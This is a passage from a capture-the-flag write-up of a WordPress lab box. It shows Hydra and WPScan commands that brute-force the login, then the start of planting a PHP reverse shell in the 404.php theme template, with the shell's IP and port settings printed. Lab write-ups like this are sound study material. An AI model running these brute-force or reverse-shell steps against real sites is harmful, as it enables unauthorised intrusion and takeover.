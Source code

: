 The dictionary file we downloaded can help us in this case as to finding a possible username that can be combined with the previously found password. so lets do abit of bruteforcing!!!! Hydra is going to be used for this 
But first lets get the POST request of the login by using Burpsuite!

Making sure that the proxy is turned on!!

![7 burp part 1](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/908b3961-c546-4d7a-8ad0-7fef7b09bd14)

We opened up Burpsuite and head over to proxy > Intercept to capture the request of the page 

![7 burp part 1](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/fc8a673b-0ab6-4088-9551-6f925e1e4c7f)

We continue to attempt to login and reciving the HTTP-POST request 

![7 burp part 2](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/999151a3-aec1-4453-917c-f7a2d73d832f)

The key element:
```shell
log=admin+&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.151.145%2Fwp-admin%2F&testcookie=1
```
This shows which parameters the web service is expecting upon the POST request 

Hydra Time!!!!!!!!!

```shell
$ hydra -L fsocity.dic -p "testing" 10.10.151.145 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -v
 (username)
```
Running the command and there we go found a username !!!!!!!

Elliot (which makes sense based on the theme of this CTF)

![8 hydra ssh elliot](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/345f1966-7cab-494e-acb5-eb57f9ba69ac)

Now the password! for some reason hydra cant recognise the username inputted so we had to take a different route, using WPscan (which is the same bruteforing technique but for wordpress)

```shell
$ wpscan --url http://10.10.151.145/wp-login.php -U Elliot -P fsocity.dic
```
It took 20-30 mins to show the password, but its the same password as the base64 string so lets just move on :)

## Exploiting WordPress

We now need to get a reverse shell. We went onto Appreance > 404.php and replace the existing code with a php resverse shell code from pentestmonkey. 

https://github.com/pentestmonkey/php-reverse-shell

![10 apperance](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/c5f3695b-f751-454e-901d-dbe7eb9866ea)

Changing the IP (the listener) and the Port number.
```shell
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Setup a netcat listener to our machine.
